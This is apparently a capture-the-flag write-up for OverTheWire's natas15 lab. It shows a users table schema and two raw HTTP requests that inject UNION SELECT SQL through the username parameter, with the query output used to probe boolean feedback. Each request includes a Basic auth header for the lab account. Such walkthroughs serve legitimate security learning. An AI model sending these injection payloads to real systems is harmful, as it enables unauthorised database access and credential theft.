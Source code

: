 We get the user table structure
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);

As with 14 we can add debug to see the query.
But we don't get and text back, only boolean feedback.

```http
GET /index.php?debug&username=a1d2m3i4n5%22+union+select+1%2C2--+- HTTP/1.1
Host: natas15.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Origin: http://natas15.natas.labs.overthewire.org
Authorization: Basic bmF0YXMxNTpTZHFJcUJzRmN6M3lvdGxOWUVyWlNad2Jsa20wbHJ2eA==
Connection: keep-alive
Referer: http://natas15.natas.labs.overthewire.org/
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1


```

```
Executing query: SELECT * from users where username="a1d2m3i4n5" union select 1,2-- -"
This user exists.
```

I added a third column to make a bad one
```http
GET /index.php?debug&username=a1d2m3i4n5%22+union+select+1%2C2%2C3--+- HTTP/1.1
Host: natas15.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Origin: http://natas15.natas.labs.overthewire.org
Authorization: Basic bmF0YXMxNTpTZHFJcUJzRmN6M3lvdGxOWUVyWlNad2Jsa20wbHJ2eA==
Connection: keep-alive
Referer: http://natas15.natas.labs.overthewire.org/
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1


```

```
Executing query: SELECT * from users where username="a1d2m3i4n5" union select 1,2,3-- -"
Error in query.
```
